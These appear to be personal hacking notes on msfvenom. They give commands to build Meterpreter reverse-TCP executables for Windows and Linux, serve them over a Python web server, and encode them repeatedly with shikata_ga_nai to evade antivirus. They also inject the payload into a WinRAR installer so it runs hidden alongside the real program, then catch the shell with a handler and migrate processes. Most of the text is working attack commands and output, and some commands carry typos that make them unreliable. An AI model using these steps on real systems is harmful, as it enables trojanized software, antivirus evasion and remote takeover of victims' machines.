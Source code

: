 # 🛠️ MSFVENOM
	
	
msfvenom --list 

x64 <- 64 bit 
x86 <- 32 bit



-a <- architecture

-p payload
# Windows Examples
```bash
msfvenom -a x86 -p /windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe

msfvenom -a x64 -p /windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > /home/ryzen/payload64.exe
```

msfvenom --list --format

elf <- binary linux file executable


elf-so <- shared object

jar <- java file

osx-app <- mac

in linux no need to mention -a arcitecture 

msfvenom -p /linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload32

no need to mention .elf

chmod +x payload64

msfvenom -p /linux/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > /home/ryzen/payload64

python3 -m http.server 8080

pythom -m SimpleHTTPServer 80

#		# ENCODEING PAYLOAD 
		
		
we can envade older AV sol by encoding our payloads

encoding is modifying payload shellcode with the objective of modifying the payload signature

msfvenom --list encoders

best <- x86/shikata_ga_nai  ploymorphic xor additive feedback encoder

msfvenom -p windows/meterpreter/reverse_tcp LHOST=   LPORT = ..... -e x86/shikata_ga_nai -f exe > payload
```bash
 output: Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		xB6/shikata_ga_nai succeeded with size 381 (iteration=0)
		x86/shikata_ga_nai chosen with final size 381
		Payload size: 381 bytes
		Final size of exe file: 73802 bytes
```		 
  
  
  
  more interation of encode more chance of bypassing the AV
  

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT =<PORT> -i 10 -e x86/shikata_ga_nai -f exe > payload
 
 	output:
		Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
		<86/shikata_ga_nai succeeded with size 381 (iteration=0)
		<86/shikata_ga_nai succeeded with size 408 (iteration=1)
		<86/shikata_ga_nai succeeded with size 435 (iteration=2)
		<86/shikata_ga_nai succeeded with size 462 (iteration=3)
		<86/shikata_ga_nai succeeded with size 489 (iteration=4)
		<86/shikata_ga_nai succeeded with size 516 (iteration=5)
		<86/shikata_ga_nai succeeded with size 543 (iteration=6)
		86/shikata_ga_nai succeeded with size 570 (iteration=7)
		86/shikata_ga_nai succeeded with size 597 (iteration=8)
		<86/shikata_ga_nai succeeded with size 624 (iteration=9)
		<86/shikata_ga_nai chosen with final size 624
		Payload size: 624 bytes
		Final size of exe file: 73802 bytes
  
  
  same for linux
but it is much smaller than windows payloads



###		Injecting Payloads Into Windows Portable Executables 

msfvenom -x or --template for specify custom template also use -k or --keep to save behaviour and inject payload as a new thread

BEST option winRAR executable

generate 32 bin meterpreter payload then inject it in winrar setup file

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe > ~/Download/wrar32.exe > ~/payloads/winrar.exe

sudo python3 -m http.server 8080


msfconsole 
use mulit/handler
set payload window/meterpreter/reverse_tcp
 
 > run post/windows/manage/migrate
 
 why? 
 ```bash
 ->a post-exploitation module known as "migrate," which is used in a Windows environment. Essentially, this tool helps move the process that a Metasploit payload is running on into another process. And the whole idea is to dodge any interferen from Windows that might shut down that original process. So if you run this migration command, it might, for instance, hop into something like a notepad.exe process and just carry on from there. It's like a little digital shapeshifter trick to keep things running smoothly. And from there, you don’t really have to sweat the details of those modules anymore. It's all part of the fun of post-exploitation magic.
 ```
 k option 
 it mentain the original functianily of the portabel exectable and then it will execute the meterpreter payload lyeing inside the executable
 
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f exe *-k* > ~/Download/wrar32.exe > ~/payloads/winrarnew.exe 
  
  
  
  

